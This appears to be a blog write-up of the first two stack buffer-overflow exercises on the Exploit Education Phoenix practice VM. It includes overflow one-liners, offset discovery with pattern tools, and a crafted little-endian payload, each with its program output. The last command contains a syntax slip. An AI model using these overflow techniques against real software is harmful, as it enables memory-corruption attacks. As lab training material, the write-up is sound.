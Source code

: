 ```yaml
---
title: "Phoenix"
date: 2020-03-23T11:24:34-04:00
draft: false
description: "Adventures in Learning ROP (Return Oriented Programming) | Using Exploit-Exercises Phoenix VM Image"
---
```


# Description:  

The Phoenix VM Image can be found here:  https://exploit.education/phoenix/

The virtual machine containers a number of vulnerable executables that allow students to learn stack, format-string, and heap-based overflows. The stack series contains executables stack 0-6. Format string vulnerabilities include format 0-4, and the heap vulnerabilitites include head 0-3.  

# Stack 0

Running ./stack-zero provides us with a place to enter some data. Entering a random sequence "AAAA" gives us the output:  ```Uh oh, 'changeme' has not yet been changed. Would you like to try again?```

Trying to send the program even more data (since this is a BoF lab) results in a successful completion of the challenge. 
```
python -c 'print "A" * 100' | ./stack-zero

Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```


# Stack 1  

```bash
pattern_create.rb -l 100
```  

```bash
./stack-one Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A  

Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x63413163, we want 0x496c5962
```

```bash
pattern_offset -l 0x63413163

[*] Exact match at offset 64  
```  

Since we know there is a buffer size of 64 before we write to the changeme address space, we can write 64 bytes of garbage, followed by the intended value to store, written in little-endian so that it can be properly stored in memory. 

```bash
python -c 'print "A" * 64 + "\x62\x59\x6c\x49"'
```

The above will print 64 A's followed by the little-endian address.  

We can pass this to the stack-one executable as such:  

```bash
./stack-one $($python -c 'print "A" * 64" + "\x62\x59\x6c\x49"')

Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value  
```








